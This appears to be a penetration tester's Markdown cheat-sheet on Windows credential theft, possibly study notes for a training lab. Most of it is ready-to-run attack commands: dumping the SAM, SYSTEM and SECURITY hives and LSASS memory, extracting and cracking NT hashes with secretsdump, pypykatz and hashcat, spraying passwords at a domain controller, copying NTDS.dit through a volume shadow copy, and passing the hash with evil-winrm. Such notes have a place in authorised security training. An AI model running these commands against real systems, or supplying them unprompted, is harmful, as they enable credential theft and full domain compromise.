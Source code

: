 ## Attacking SAM 

Registry Hives if you have local admin access on the target.

|Registry Hive|Description|
|---|---|
|`hklm\sam`|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|`hklm\system`|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|`hklm\security`|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|

#### Locally

```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```
#### Remotely

```shell
crackmapexec smb <ip> --local-auth -u <user> -p <pass> --lsa
```

```shell
crackmapexec smb <ip> --local-auth -u <user> -p <password> --sam
```

#### Cracking SAM
```shell
impacket-secretsdump -sam <sam file> -security <security file> -system <system file> LOCAL
```

```shell
sudo hashcat -m 1000 <NT Hashes> /usr/share/wordlists/rockyou.txt
```



## Attacking LSASS
![[Pasted image 20230801143148.png]]
Upon intial logon LSASS:
- Cache credentials locally in memory
- Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
- Enforce security policies
- Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

#### Dump LSASS 
##### Task manager
![[Pasted image 20230801143218.png]]

Outputs to 
```cmd
C:\Users\loggedonusersdirectory\AppData\Local\Temp\lsass.DMP
```

##### CMD
Get LSASS PID
```cmd
tasklist /svc
```
```powershell
 Get-Process lsass
```
Create LSASS.dmp
```powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <pid> C:\lsass.dmp full
```


#### Extract LSASS Credentials 
 
##### Pypykatz
```shell
pypykatz lsa minidump lsass.dmp
```
###### [MSV](https://learn.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package)

Authentication package in windows that LSA validates logon attemps against the SAM database, 
###### WDIGEST

Older authentication methods protocol enabled by default Win XP - Win 8  and Server 2003 - 2012
LSASS caches credentials in clear text used by WDIGEST

###### [Kerberos](https://web.mit.edu/kerberos/#what_is)

Network authentication protocol used by AD in Windows domain environments.
LSASS caches passwords, ekeys, tickets and pins. 

###### [DPAPI](https://learn.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection)

Data Protection Application Programming Interface,
Used to encrypt and decrypt data blobs on a per-user basis for Windows OS features.

|Applications|Use of DPAPI|
|---|---|
|`Internet Explorer`|Password form auto-completion data (username and password for saved sites).|
|`Google Chrome`|Password form auto-completion data (username and password for saved sites).|
|`Outlook`|Passwords for email accounts.|
|`Remote Desktop Connection`|Saved credentials for connections to remote machines.|
|`Credential Manager`|Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more.|

Mimikatz and Pypykatz can extract the DPAPI master key for the logged on users.

## Attacking Active Directory & NTDS.dit

Need initial foothold on the network 

Once a Windows system is joined to a domain, it will no longer default to referencing the SAM database to validate logon requests.

[Attack technique](https://attack.mitre.org/techniques/T1003/003/)

#### Dictionary Attacks 

Very noisy 

|Username Convention|Practical Example for Jane Jill Doe|
|---|---|
|`firstinitiallastname`|jdoe|
|`firstinitialmiddleinitiallastname`|jjdoe|
|`firstnamelastname`|janedoe|
|`firstname.lastname`|jane.doe|
|`lastname.firstname`|doe.jane|
|`nickname`|doedoehacksstuff|
Using Emails:
	We can often find the email structure by Googling the domain name, i.e., “@inlanefreight.com” and get some valid emails. From there, we can use a script to scrape various social media sites and mashup potential valid usernames. Some organizations try to obfuscate their usernames to prevent spraying, so they may alias their username like a907 (or something similar) back to joe.smith. That way, email messages can get through, but the actual internal username isn’t disclosed, making password spraying harder. Sometimes you can use google dorks to search for “inlanefreight.com filetype:pdf” and find some valid usernames in the PDF properties if they were generated using a graphics editor. From there, you may be able to discern the username structure and potentially write a small script to create many possible combinations and then spray to see if any come back valid.

Create usernames with [Username anarchy](https://github.com/urbanadventurer/username-anarchy)

#### Target the Domain Controller
Attempt to establish username and password
```shell
crackmapexec smb <ip> -u <username> -p <password list>
```
#### Locally 
##### Connect to the DC and Captre NTDS.dit
```shell
evil-winrm -i <ip>  -u <username> -p '<password>'
```

##### Check Local priviliges 
```shell
PS C:\> net localgroup
```

```shell
net user <user>
```

Need local admin or Domain admin
##### Create a shadow copy of C Drive
```shell
PS C:\> vssadmin CREATE SHADOW /For=C:
```
##### Copy NTDS.dit from VSS 
```shell
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

#### Remotely
```shell
crackmapexec smb <ip> -u <user> -p <password> --ntds
```


#### Pass the hash
```shell
evil-winrm -i <ip> -u <user> -H "<hash>"
```
